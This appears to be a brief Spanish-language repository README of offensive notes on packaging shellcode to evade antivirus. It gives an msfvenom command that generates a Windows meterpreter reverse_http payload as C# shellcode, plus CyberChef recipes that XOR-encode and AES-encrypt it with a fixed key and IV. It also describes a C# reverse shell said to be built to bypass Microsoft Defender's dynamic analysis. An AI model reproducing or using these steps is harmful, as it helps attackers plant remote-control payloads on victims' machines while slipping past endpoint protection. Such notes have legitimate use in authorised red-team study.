 # Shell bitecode

    msfvenom -p windows/x64/meterpreter/reverse_http LHOST=... LPORT=... -f csharp

# Recetas:

### Xor

Encodear 2 veces

    https://gchq.github.io/CyberChef/#recipe=From_Hex('0x%20with%20comma')XOR(%7B'option':'Hex','string':'5c'%7D,'Standard',false)To_Hex('0x%20with%20comma',0)

### AES

    https://gchq.github.io/CyberChef/#recipe=From_Hex('0x%20with%20comma')AES_Encrypt(%7B'option':'Hex','string':'1f768bd57cbf021b251deb0791d8c197'%7D,%7B'option':'Hex','string':'ee7d63936ac1f286d8e4c5ca82dfa5e2'%7D,'CBC','Raw','Raw',%7B'option':'Hex','string':''%7D)To_Base64('A-Za-z0-9%2B/%3D')


# Archivos

### Csharprevshell

Reverse shell simple creada para baypassear el análisis dinámico del Defender

###
